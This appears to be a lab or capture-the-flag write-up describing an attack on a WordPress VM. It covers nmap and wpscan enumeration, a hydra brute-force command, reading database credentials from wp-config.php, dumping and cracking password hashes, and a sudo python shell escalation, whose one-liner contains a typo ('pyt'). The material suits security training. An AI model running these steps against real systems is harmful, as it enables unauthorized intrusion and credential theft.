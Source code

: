 # Offensive Engagement
## Find the Target VM
To find the target VM we need to use nmap to enumerate the network. we can start with a `nmap -sV 192.168.1.0/24` to find which hosts are up and find out which services and version they are running.
![network-scan](Images/nmap-enumeration.png)
  - We can see that one of the hosts `192.168.1.110` is running **Apache httpd 2.4.10**. We know that Apache is used to run HTTP servers, and that this version of Apache is outdated and can be exploited.
## Exploit the Target
Now that we located the vulnerable target we can exploit it using a wordpress scan. `wpscan --url http://192.168.1.110/wordpress -eu`
![wordpress-enum](Images/wpscan-enum.png)
  - This wordpress scan uses a brute force attack to enumerate user accounts on the wordpress site. Two users are given *michael* and *steven*. Both of these usernames can be used to gain a user shell.
We are able to gain access to michaels account by using a simple guess **password=michael**. In other cases we could have used the hydra command to be able to brute force his password. `hydra -l michael -p /path/to/wordlists.txt -s 80 -f -vV 192.168.1.110 http-get /login.php`

## Finding the flags
Now that we are in michaels account we can use commands to find the flag names. To find the first flag we used the `find` command.
- `find . -type f -iname *flag* 2>/dev/null`
![flag2](Images/flag-2.png)
This command located flag2.txt as well as other places that other flags might be in. A hint was presented to me saying that the first flag may be imbedded in a file. This prompted me to do a recurssive search in all html files. We need to change directories to `/var/www`
- `grep -RE flag html`
![flag1](Images/flag-1.png)
- We found flag one embeeded in the service.html file. For fun I located the flag in the source code of that html page.
![flag1-source](Images/flag1-source.png)
## Finding MySQL Database password
After finding the necessary flags in michaels account we direct our attention to finding information to login into the MySQL database. We know this information has to be in a configuration file. `nano /var/www/html/wordpress/wp-config.php`
![db-info](Images/wordpress-db-info.png)
- This config file gives us the password for the `root` account. **R@v3nSecurity**
## Navigating through MySQL
This section provides the commands used in order to get the password hashes for michael and steven's accounts as well as the steps taken to find the other flags.
- To login to MySQL we ran the command `mysql -u root -p` and entered the password we found for the root account.
- We then listed the databases. `show databases;`
- Switched to the wordpress database `use wordpress`
- Listed the tables in the database `show tables;`
- Selected all columns from the posts table `select * from wp_posts`
![flag3](Images/flag3.png)
- Selected all columns from the user table `select * from wp_users`
![hashse](Images/database-hashes.png)
  - This gave us the password hashes for each account. We can input these hashes, in the proper format, into a text file and use `john` to crack the password hashes.
![john](Images/john-passwd.jpg)

## Privilege Escalation
Now that we have steven's password we can login into his account on the wordpress site. `ssh steven@192.168.1.110` **password:pink84**
Steven's account is limited to his sudo access and only one command on his account. That command being **python**. Seeing that we are limited I searched for escalation methods using the python command. The one I found is as follows. `sudo python -c 'import pyt;pty.spawn("/bin/bash");'`
![priv](Images/list-priv.PNG)
  - In order for this escalation method to work it needs to be ran with sudo privileges. This python command simply opens up a bash shell. This is why it is important to run it as sudo so that python opens the shell with escalated privileges.
Now that we are in the root account we can then find the last flag by using the find command. `find . -type f -iname *flag* 2>/dev/null`




